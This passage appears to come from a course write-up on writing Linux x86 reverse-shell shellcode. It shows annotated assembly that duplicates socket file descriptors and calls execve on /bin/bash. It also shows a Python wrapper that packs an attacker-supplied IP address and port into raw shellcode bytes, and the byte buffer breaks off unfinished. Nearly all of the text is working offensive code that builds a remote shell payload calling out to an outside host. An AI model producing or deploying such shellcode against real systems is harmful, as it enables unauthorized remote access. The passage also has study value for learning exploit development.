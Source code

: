 ```term
      int 0x80                ; Call to kernel.

      jnz dup2                ; Jump if the zero flag (ZF) is not set, this will continue the loop 3 times.

execve:

      xor eax, eax            ; Zeroes out EAX.
      push eax                ; Pushes EAX (0x00000000).

      PUSH 0x68736162         ; hsab
      PUSH 0x2f6e6962         ; /nib
      PUSH 0x2f2f2f2f         ; ////

      mov ebx, esp            ; Copies the pushed instructions into EBX.
      push eax                ; Pushes EAX (0x00000000).

      mov edx, esp            ; Copies the value of ESP (0x00000000) into EDX, giving envp[] a value of 0.

      push ebx                ; Pushes ////bin/bash into the stack.
      mov ecx, esp            ; Copies such value to ECX.
      push word 11            ; Pushes word 11 (execve) into the stack.
      pop ax                  ; Pops such word into ax so there are no nulls.
      int 0x80                ; Calls to kernel.
```

#### The Wrapper

As stated in the introduction, one additional detail given in the assignment is to create a wrapper (in any language) that easily configures the address and port for the reverse shell.

Wrapper code:

```term
import socket, sys, struct

if len(sys.argv) != 3:

      print "[*] Example: /usr/bin/python wrapper.py <IP address> <port>"
      sys.exit(1)

address = sys.argv[1]

address = address.split('.')
hexaddress = hex(int(address[0])) + hex(int(address[1])) + hex(int(address[2])) + hex(int(address[3]))
hexaddress = hexaddress.replace('0x', '')
hexaddress = hexaddress.upper()

final_address = "\\x"+"\\x".join(a+b for a,b in zip(hexaddress[::2],hexaddress[1::2]))

port = sys.argv[2]
port = int(port)
port = socket.htons(port)
hexport = hex(port)
hexport = struct.pack("<H", port).encode("hex")

final_port = "\\x"+"\\x".join(a+b for a,b in zip(hexport[::2],hexport[1::2]))

buf = ("\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\x68\\x67\\x01\\x66\\x58\\xb3"
"\\x02\\xb1\\x01\\x52\\xcd\\x80\\x89\\xc6\\x66\\x68\\x6a\\x01\\x66\\x58\\x89"
"\\xf3\\x52\\x68"
+ final_address +
"\\x66\\x68"
```